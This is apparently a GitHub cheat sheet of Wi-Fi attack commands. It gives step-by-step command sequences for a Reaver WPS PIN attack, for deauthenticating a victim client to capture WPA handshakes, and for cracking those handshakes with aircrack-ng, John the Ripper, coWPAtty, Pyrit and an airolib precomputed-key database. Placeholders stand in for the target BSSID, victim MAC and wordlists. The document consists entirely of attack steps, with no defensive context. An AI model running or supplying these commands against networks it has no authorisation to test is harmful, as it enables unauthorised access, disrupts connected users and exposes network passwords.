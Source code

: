 ## WPS Attack - Reaver
    1. $ airmon-ng start wlan0
    2. $ apt-get install reaver
    3. $ wash –i wlan0mon –C
    4. $ reaver –i wlan0mon –b <BSSID> -vv –S
    #or, Specific attack
    
    $ reaver –i –c <Channel> -b <BSSID> -p <PinCode> -vv –S

## Dictionary Attack
    1. $ airmon-ng start wlan0
    2. $ airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. $ aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
    4. $ aircrack-ng –w <WordlistFile> -b <BSSID> <Handshaked_PCAP>

## Crack with John The Ripper
    1. $ airmon-ng start wlan0
    2. $ airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. $ aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
    4. $ cd /usr/share/passwords/john
    5. $ ./john –wordlist=<Wordlist> --rules –stdout|aircrack-ng -0 –e <ESSID> -w - <PCAP_of_FileName>

## Crack with coWPAtty
    1. $ airmon-ng start wlan0
    2. $ airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. $ aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
    4. $ cowpatty –r <FileName> -f <Wordlist> -2 –s <SSID>
    5. $ genpmk –s <SSID> –f <Wordlist> -d <HashesFileName>
    6. $ cowpatty –r <PCAP_of_FileName> -d <HashesFileName> -2 –s <SSID>

## Crack with Pyrit
    1. $ airmon-ng start wlan0
    2. $ airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. $ aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
    4. $ pyrit –r<PCAP_of_FileName> -b <BSSID> -i <Wordlist> attack_passthrough
    5. $ pyrit –i <Wordlist> import_passwords
    6. $ pyrit –e <ESSID> create_essid
    7. $ pyrit batch
    8. $ pyrit –r <PCAP_of_FileName> attack_db
 
## Precomputed WPA Keys Database Attack
    1. $ airmon-ng start wlan0
    2. $ airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. $ aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
    4. $ kwrite ESSID.txt
    5. $ airolib-ng NEW_DB --import essid ESSID.txt
    6. $ airolib-ng NEW_DB --import passwd <DictionaryFile>
    7. $ airolib-ng NEW_DB --clean all
    8. $ airolib-ng NEW_DB --stats
    9. $ airolib-ng NEW_DB --batch
    10. $ airolib-ng NEW_DB --verify all
    11. $ aircrack-ng –r NEW_DB <Handshaked_PCAP>
